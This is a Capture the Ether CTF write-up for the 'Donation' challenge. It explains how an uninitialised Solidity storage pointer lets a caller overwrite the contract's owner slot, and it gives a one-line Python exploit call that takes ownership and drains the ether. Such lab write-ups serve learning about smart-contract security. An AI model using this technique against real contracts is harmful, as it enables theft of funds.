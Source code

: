 # Donation

## Objectives

>A candidate you don’t like is accepting campaign contributions via the smart contract below.
>To complete this challenge, steal the candidate’s ether.

## Solution

The function `donate()` contains a bug:

```js
function donate(uint256 etherAmount) public payable {
    // amount is in ether, but msg.value is in wei
    uint256 scale = 10**18 * 1 ether;
    require(msg.value == etherAmount / scale);

    Donation donation;
    donation.timestamp = now;
    donation.etherAmount = etherAmount;

    donations.push(donation);
}
```

The variable `donation` is not initialized, so it is defaulted to storage. As a result, `donation` now is a pointer that affects storage slot 0 (`donations`) and storage slot 1 (`owner`). As a result, whatever value is assigned to these two variables, but in particular, to `etherAmount`, will write to those two storage slots.

```js
donation.timestamp = now;
donation.etherAmount = etherAmount;
```

To complete the challenge, all you have to do is pass the uint conversion of your address divided by `scale` as `etherAmount`, after this, you can call `withdraw()` and drain the contract. 

In Python I did it as follows:

```python
donation.donate(acc.address, _from | {'value':floor(int(acc.address,16)//1e36)})
```

Where:

* `_from` is {'from':acc.address}
* `acc` is my loaded account through my private key (the account doing the capture the ether challenges)
* `floor()` is the floor function
* `//` is integer division
* `int(acc.address, 16)` is the conversion to int of my address (basically hexadecimal $\rightarrow$ decimal)


## Submission transaction

https://ropsten.etherscan.io/tx/0x5fc76f733f3384fa064f8d10acda683ca35cd683dc47781aa2e9d5ef9913f5b8
